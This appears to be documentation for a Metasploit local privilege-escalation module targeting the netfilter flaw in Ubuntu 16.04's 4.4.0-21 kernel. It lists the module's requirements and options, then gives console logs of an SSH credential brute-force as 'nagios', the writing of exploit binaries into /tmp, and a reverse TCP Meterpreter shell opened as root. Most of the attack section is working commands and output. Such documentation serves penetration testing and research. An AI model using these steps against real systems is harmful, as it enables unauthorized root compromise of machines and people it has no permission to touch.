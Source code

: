 ## Notes

Originally this module was written to drop the binary files on the target.  However, metasm wasn't able to compile due to the libc6-dev-i386 requirement, so it was decided to compile on the target.

This module (and the original exploit) are written in two parts: desc, and pwn.  Desc does the heavy lifting to prep/condition the environment, pwn does the payload executing.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. ip_tables.ko has to be loaded (root running iptables -L will do such)
  2. libc6-dev-i386 needs to be installed to compile
  3. shem and sham can not be installed/running

This module has been tested against:

  1. Ubuntu 16.04.1 (sudo apt-get install linux-image-4.4.0-21-generic)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic

This does not work against the following vulnerable systems.  Additional work may be required.
  
  1. Fedora 24 < [kernel-4.6.3-300](https://bugzilla.redhat.com/show_bug.cgi?id=1349722#c18)
  2. Fedora 22 < [kernel-4.4.14-200](https://bugzilla.redhat.com/show_bug.cgi?id=1349722#c19)
  3. RHEL < [kernel-3.10.0-327.36.1.el7](https://rhn.redhat.com/errata/RHSA-2016-1847.html)
  4. Suse < [kernel-default-3.12.59-60.45.2](http://lists.opensuse.org/opensuse-security-announce/2016-06/msg00060.html)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ubuntu_netfilter`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **REEXPLOIT**
  
  When re-exploiting, no need to run desc (it may even fail), so we can simply run pwn and get our shell.

## Scenarios

### Ubuntu 16.04.1 (with linux-image-4.4.0-21-generic)

Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    msf auxiliary(ssh_login) > set username nagios
    username => nagios
    msf auxiliary(ssh_login) > set password nagios
    password => nagios
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'nagios:nagios' 'uid=1000(nagios) gid=1000(nagios) groups=1000(nagios),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1001(nagcmd) Linux nagios 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (127.0.0.1:36085 -> 127.0.0.1:22) at 2016-09-16 01:15:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Escalate

    msf auxiliary(ssh_login) > use exploit/linux/local/ubuntu_netfilter
    msf exploit(ubuntu_netfilter) > set session 1
    session => 1
    msf exploit(ubuntu_netfilter) > set verbose true
    verbose => true
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4444 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing desc executable to /tmp/452xNomE.c
    [*] Max line length is 65537
    [*] Writing 3484 bytes in 1 chunks of 12068 bytes (octal-encoded), using printf
    [*] Executing /tmp/452xNomE, may take around 35s to finish.  Watching for /tmp/rrOA1xsB to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/HbFVMTZM
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/eRFqvuyG.c
    [*] Max line length is 65537
    [*] Writing 1418 bytes in 1 chunks of 4975 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 2 opened (172.20.14.188:4444 -> 172.20.14.188:45114) at 2016-09-16 01:16:52 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0

### Re-exploit

In this scenario, we already exploit the box, for whatever reason our shell died.  So now we want to re-exploit, but we dont need to run desc again.

    msf exploit(ubuntu_netfilter) > set reexploit true
    reexploit => true
    msf exploit(ubuntu_netfilter) > set session 2
    session => 2
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4445 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/OblBUbtc
    [*] Writing pwn executable to /tmp/u4PnMEdw.c
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 3 opened (172.20.14.188:4445 -> 172.20.14.188:40370) at 2016-09-17 13:35:57 -0400
    [+] Deleted /tmp/OblBUbtc
    [+] Deleted /tmp/u4PnMEdw.c
    [+] Deleted /tmp/u4PnMEdw
    [-] Exploit failed: Rex::TimeoutError Operation timed out.
    [*] Exploit completed, but no session was created.
